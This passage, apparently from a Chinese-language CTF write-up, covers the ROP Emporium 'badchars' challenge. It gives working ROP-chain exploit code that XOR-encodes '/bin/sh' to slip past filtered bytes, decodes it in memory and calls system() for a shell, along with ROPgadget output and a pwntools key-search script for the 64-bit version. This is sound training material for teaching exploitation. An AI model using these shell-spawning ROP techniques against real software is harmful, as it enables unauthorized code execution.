 ```python
payload += l32(pop_esi_edi)
payload += binsh[:4]
payload += l32(data_addr)
payload += l32(mov_edi_esi)
payload += l32(pop_esi_edi)
payload += binsh[4:8]
payload += l32(data_addr + 4)
payload += l32(mov_edi_esi)

# decode
for i in range(len(binsh)):
    payload += l32(pop_ebx_ecx)
    payload += l32(data_addr + i)
    payload += l32(xor_byte)
    payload += l32(xor_ebx_cl)

# run
payload += l32(system_plt)
payload += "BBBB"
payload += l32(data_addr)

io = zio('./badchars32')
io.writeline(payload)
io.interact()
```

### badchars

64 位程序也是一样的，注意参数传递就好了。

```text
$ ropgadget --binary badchars --only "mov|pop|ret|xor"
...
0x0000000000400b34 : mov qword ptr [r13], r12 ; ret
0x0000000000400b3b : pop r12 ; pop r13 ; ret
0x0000000000400b40 : pop r14 ; pop r15 ; ret
0x0000000000400b30 : xor byte ptr [r15], r14b ; ret
0x0000000000400b39 : pop rdi ; ret
```

```python
from pwn import *

pop_r12_r13  = 0x0000000000400b3b
mov_r13_r12  = 0x0000000000400b34
pop_r14_r15  = 0x0000000000400b40
xor_r15_r14b = 0x0000000000400b30
pop_rdi      = 0x0000000000400b39

system_plt = 0x00000000004006f0
data_addr  = 0x0000000000601000

badchars = [0x62, 0x69, 0x63, 0x2f, 0x20, 0x66, 0x6e, 0x73]
xor_byte = 0x1
while(1):
    binsh = ""
    for i in "/bin/sh\x00":
        c = ord(i) ^ xor_byte
        if c in badchars:
            xor_byte += 1
            break
        else:
            binsh += chr(c)
    if len(binsh) == 8:
        break
```